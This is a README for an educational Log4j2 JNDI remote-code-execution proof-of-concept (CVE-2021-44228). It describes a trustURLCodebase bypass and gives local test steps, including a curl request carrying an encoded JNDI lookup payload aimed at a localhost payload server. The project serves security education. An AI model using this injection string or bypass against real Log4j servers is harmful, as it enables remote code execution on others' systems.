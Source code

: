 # Log4j2 RCE Vulnerability POC

A bare minimum proof-of-concept for Log4j2 JNDI Remote-Code-Execution vulnerability ([CVE-2021-44228][]). This is
intended for educational purposes to help people who are not security researchers to understand how it works and how
large the impact is.

The POC bypasses the requirement for setting `com.sun.jndi.rmi.object.trustURLCodebase`
and `com.sun.jndi.cosnaming.object.trustURLCodebase` properties to `true`
which [were disabled by default since 8u121, 7u131, 6u141](https://www.oracle.com/java/technologies/javase/8u121-relnotes.html)
.

## Prerequisites

- JDK 1.8

Note: JDK 1.8 is required for `payload-server` to compile, but the `victim-app` is vulnerable up until JDK 15
because [the Nashorn engine was removed in JDK 15][].

## To Test

1. Start the `payload-server` by running:

```console
$ ./gradlew runPayloadServer
```

2. Open a new terminal session then start the `victim-app`:

```console
$ ./gradlew runVictimApp
```

3. Run `curl http://localhost:8080/hello?name=%24%7Bjndi%3Armi%3A%2F%2F127.0.0.1%3A8099%2Fexec%7D` to trigger the RCE.
4. To proof the remote code has been executed, check the console log of `victim-app`. You should see an unintended log
   has been printed on the screen.

[CVE-2021-44228]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228

[the Nashorn engine was removed in JDK 15]: https://openjdk.java.net/jeps/372
